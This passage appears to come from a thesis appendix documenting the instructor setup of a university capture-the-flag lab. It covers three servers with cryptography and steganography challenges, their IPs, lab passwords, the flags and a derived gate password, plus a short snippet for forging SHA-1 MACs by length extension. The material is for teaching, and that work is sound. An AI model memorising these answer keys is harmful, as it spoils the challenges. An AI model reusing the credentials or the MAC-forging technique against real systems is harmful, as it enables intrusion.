\subsection{\texorpdfstring{Network config ({\ttfamily /etc/netplan/01-lab4.yaml})}{Network config (/etc/netplan/01-lab4.yaml)}}

\begin{lstlisting}
network:
  version: 2
  ethernets:
    ens3:
      addresses:
        - 10.10.1.10/24
      routes:
        - to: default
          via: 10.10.1.1
\end{lstlisting}

\subsection{Accounts}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Account & Password & Role \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
admin & \texttt{N3xaTech!} & Student entry \\
root & \texttt{eve} & Console only \\
\end{longtable}}

\subsection{Installed tools}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Package & Version & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\texttt{pycryptodome} & 3.23.0 & AES oracle (A2), RSA (A5) \\
\texttt{gmpy2} & 2.1.5 & Integer cube root for RSA (A5) \\
\texttt{python3} & system & Challenge scripts \\
\end{longtable}}

\subsection{\texorpdfstring{Challenge files ({\ttfamily /home/admin/mensajes/})}{Challenge files (/home/admin/mensajes/)}}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.52\linewidth}
  >{\raggedright\arraybackslash}p{0.14\linewidth}
  >{\raggedright\arraybackslash}p{0.24\linewidth}@{}}
\toprule\noalign{}
File & Challenge & Technique \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{A1_mensaje_interceptado.txt} & A1 & ROT13 \\
\path{A2_oracle.py} & A2 & AES-ECB encryption oracle \\
\path{A2_admin_cipher.b64} & A2 & Base64-encoded AES-ECB ciphertext \\
\path{A3_documento_clasificado.txt} & A3 & Vigenère (key: \texttt{NEXATECH}) \\
\path{A4_mensaje_xor.hex} & A4 & XOR repeating key (hex) \\
\path{A5_rsa_challenge.txt} & A5 & RSA \texttt{e=3}, cube root attack \\
\end{longtable}}

\subsection{Flags}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
ID & Flag \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
A1 & \texttt{H4U} \\
A2 & \texttt{H4U} \\
A3 & \texttt{H4U} \\
A4 & \texttt{H4U} \\
A5 & \texttt{H4U} $\leftarrow$ \textbf{gate flag} \\
\end{longtable}}

\begin{lstlisting}
The MD5 gate uses this flag concatenated with B5.
\end{lstlisting}

\subsection{Admin verification}

\begin{lstlisting}
ssh admin@10.10.1.10          # N3xaTech!
ls -la /home/admin/mensajes/
python3 -c "from Crypto.Cipher import AES; import gmpy2; print('tools OK')"
python3 /home/admin/mensajes/A2_oracle.py   # should print encrypted block
\end{lstlisting}

\section{LAB4 --- ServerB (Steganography Module)}

ServerB hosts the five steganography challenges of \textbf{Module B}. Challenge files are in \path{/srv/public/uploads/}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Hostname & serverb \\
OS & Ubuntu Server 24.04 LTS \\
IP & 10.10.2.10/24 \\
Gateway & 10.10.2.1 (VyOS eth2) \\
\end{longtable}}

\subsection{\texorpdfstring{Network config ({\ttfamily /etc/netplan/01-lab4.yaml})}{Network config (/etc/netplan/01-lab4.yaml)}}

\begin{lstlisting}
network:
  version: 2
  ethernets:
    ens3:
      addresses:
        - 10.10.2.10/24
      routes:
        - to: default
          via: 10.10.2.1
\end{lstlisting}

\subsection{Accounts}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Account & Password & Role \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
sysop & \texttt{S3cure24!} & Student entry \\
root & \texttt{eve} & Console only \\
\end{longtable}}

\subsection{Installed tools}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Package & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\texttt{exiftool} & EXIF metadata (B1) \\
\texttt{steghide} & Steghide extraction (B5) \\
\texttt{binwalk} & Binary analysis (B2) \\
\texttt{python3-pil} (Pillow) & LSB channel extraction (B3, B4) \\
\texttt{python3} & Scripts \\
\end{longtable}}

\subsection{\texorpdfstring{Challenge files ({\ttfamily /srv/public/uploads/})}{Challenge files (/srv/public/uploads/)}}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.52\linewidth}
  >{\raggedright\arraybackslash}p{0.14\linewidth}
  >{\raggedright\arraybackslash}p{0.24\linewidth}@{}}
\toprule\noalign{}
File & Challenge & Technique \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{B1_oficina_novacorp.png} & B1 & EXIF metadata \\
\path{B2_network_diagram.png} & B2 & Data after PNG IEND chunk \\
\path{B3_documento_escaneado.png} & B3 & LSB in red channel \\
\path{B4_novacorp_logo.png} & B4 & LSB in alpha channel (RGBA) \\
\path{B5_camara_seguridad.jpg} & B5 & Steghide JPEG (pass: \texttt{novacorp}) \\
\end{longtable}}

\subsection{Flags}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
ID & Flag \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
B1 & \texttt{H4U} \\
B2 & \texttt{H4U} \\
B3 & \texttt{H4U} \\
B4 & \texttt{H4U} \\
B5 & \texttt{H4U} $\leftarrow$ \textbf{gate flag} \\
\end{longtable}}

\begin{lstlisting}
The MD5 gate uses this flag concatenated with A5.
\end{lstlisting}

\subsection{Admin verification}

\begin{lstlisting}
ssh sysop@10.10.2.10          # S3cure24!
ls -la /srv/public/uploads/
exiftool /srv/public/uploads/B1_oficina_novacorp.png | grep -i flag
steghide extract -sf /srv/public/uploads/B5_camara_seguridad.jpg -p novacorp -f
\end{lstlisting}

\section{LAB4 --- ServerC (Advanced Mix --- Gated)}

ServerC hosts four advanced challenges combining cryptography and steganography. Access is \textbf{gated} --- students must derive the SSH password from flags A5 and B5.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Gate mechanism}

\begin{lstlisting}
password = md5(flag_A5 + flag_B5)[:12]
         = md5("H4UH4U")[:12]
         = fa681b59855d
\end{lstlisting}

The decoy password \texttt{D3vOps24!} is planted in challenge materials. It is intentionally wrong.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Hostname & serverc \\
OS & Ubuntu Server 24.04 LTS \\
IP & 10.10.3.10/24 \\
Gateway & 10.10.3.1 (VyOS eth3) \\
\end{longtable}}

\subsection{\texorpdfstring{Network config ({\ttfamily /etc/netplan/01-lab4.yaml})}{Network config (/etc/netplan/01-lab4.yaml)}}

\begin{lstlisting}
network:
  version: 2
  ethernets:
    ens3:
      addresses:
        - 10.10.3.10/24
      routes:
        - to: default
          via: 10.10.3.1
\end{lstlisting}

\subsection{Accounts}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Account & Password & Role \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
devops & \texttt{fa681b59855d} & Student entry (derived) \\
root & \texttt{eve} & Console only \\
\end{longtable}}

\subsection{Installed tools}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Package & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\texttt{exiftool} & EXIF hint extraction (C1) \\
\texttt{steghide} & Payload extraction (C1) \\
\texttt{python3-pil} (Pillow) & EXIF re-insertion after steghide (C1) \\
\texttt{hlextend} 0.2 & SHA-1 length extension attack (C3) \\
\texttt{unzip} & ZIP payload inside C1 \\
\texttt{python3} & All verifier scripts \\
\end{longtable}}

\begin{lstlisting}
`steghide` removes EXIF when embedding. The challenge file was reconstructed with
`piexif.insert()` after embedding. If regenerating C1, apply this step or students
will not find the steghide passphrase from EXIF.


For C2, students must use Python's `bz2` module --- the `bzip2` CLI is absent:
```python
python3 -c "import bz2, gzip, base64; ..."
```
\end{lstlisting}

\subsection{\texorpdfstring{Challenge files ({\ttfamily /home/devops/retos/})}{Challenge files (/home/devops/retos/)}}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.52\linewidth}
  >{\raggedright\arraybackslash}p{0.14\linewidth}
  >{\raggedright\arraybackslash}p{0.24\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & Ch. & \begin{minipage}[b]{\linewidth}\raggedright
Technique
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{C1_backup_tapes.jpg} & C1 & EXIF $\rightarrow$ steghide $\rightarrow$ ZIP \\
\path{C2_backup_log.b64} & C2 & Onion: base64 $\rightarrow$ gzip $\rightarrow$ base64 $\rightarrow$ bzip2 \\
\path{C3_api_token.txt} & C3 & SHA-1 length extension (HMAC bypass) \\
\path{C3_verificador.py} & C3 & Verifier script \\
\path{C4_ecdsa_signatures.txt} & C4 & ECDSA nonce reuse --- recover private key \\
\path{C4_verificador.py} & C4 & Verifier script \\
\end{longtable}}

\subsection{Flags}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
ID & Flag \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
C1 & \texttt{H4U} \\
C2 & \texttt{H4U} \\
C3 & \texttt{H4U} \\
C4 & \texttt{H4U} \\
\end{longtable}}

\subsection{hlextend API}

\begin{lstlisting}
import hlextend
sha = hlextend.new('sha1')
forged_msg = sha.extend(additional_data, known_message, secret_len, known_mac)
forged_mac  = sha.hexdigest()
# Note: extend() returns only forged_msg, not a tuple
\end{lstlisting}

\subsection{Admin verification}

\begin{lstlisting}
# Set bridge first (on EVE-NG host)
ip addr add 10.10.3.253/24 dev vnet0_5

ssh devops@10.10.3.10          # fa681b59855d
ls -la /home/devops/retos/
python3 -c "import hlextend; print('hlextend OK')"
exiftool /home/devops/retos/C1_backup_tapes.jpg | grep -i comment
python3 /home/devops/retos/C3_verificador.py
python3 /home/devops/retos/C4_verificador.py
\end{lstlisting}



\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab4-enunciado.pdf}

\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab4-resolucion.pdf}
\cleardoublepage

\end{document}
